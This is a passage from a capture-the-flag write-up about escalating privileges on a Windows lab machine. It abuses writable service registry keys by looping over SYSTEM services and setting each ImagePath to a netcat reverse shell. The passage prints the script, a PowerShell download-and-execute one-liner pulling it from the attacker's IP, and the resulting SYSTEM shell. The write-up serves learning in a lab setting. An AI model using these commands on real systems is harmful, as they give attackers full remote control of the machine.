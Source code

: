 ```
                   Delete, EnumerateSubKeys, ExecuteKey, FullControl, GenericExecute, GenericWrite, Notify, QueryValues, ReadPermissions, SetValue, TakeOwnership, WriteKey)...}
SystemAcl        : {}
RawDescriptor    : System.Security.AccessControl.CommonSecurityDescriptor
```

As we can see, Hector has the FullControl permission set, so we can change
whatever we want in the registry.

Because I couldn't find the correct service to exploit, I just wrote a script
that tries them all (I know, it's not the correct way to go, I have no excuse
for that).

This is the script, I called it `brute.ps1`:
```ps1
$services = Get-ItemProperty HKLM:\System\CurrentControlset\Services\* | where { ($_.ObjectName -match 'LocalSystem') }

ForEach ($service in $services)
{
    $name = $service.PSChildName
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\$name" -Name ImagePath -Value "C:\inetpub\wwwroot\nc64.exe 10.10.14.81 1338 -e powershell.exe"
    Start-Service $name
}
```

It basically filters services running as Administrator and tries to change the
value for the `ImagePath` field to a netcat reverse shell.
Let's run it with `IEX (New-Object
Net.WebClient).DownloadString('http://10.10.14.81:1339/brute.ps1')`, and after a
second we should get a shell on our listener:
```
$ nc -lnvp 1338
listening on [any] 1338 ...
connect to [10.10.14.81] from (UNKNOWN) [10.10.10.167] 50422
Microsoft Windows [Version 10.0.17763.805]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Let's check if we can read the flag:
```
C:\Windows\system32>icacls C:\Users\Administrator\Desktop\root.txt
C:\Users\Administrator\Desktop\root.txt NT AUTHORITY\SYSTEM:(I)(F)
                                        BUILTIN\Administrators:(I)(F)
                                        CONTROL\Administrator:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```

Wow that was quite a journey.
Here are some articles that I found quite useful:
* [Windows Privilege Escalation — Insecure Service #1](https://medium.com/@shy327o/windows-privilege-escalation-insecure-service-1-ec4c428e4800)
* [Persistence - Modify Existing Service](https://pentestlab.blog/2020/01/22/persistence-modify-existing-service/)

I can't wait to see IppSec's writeup about this machine!
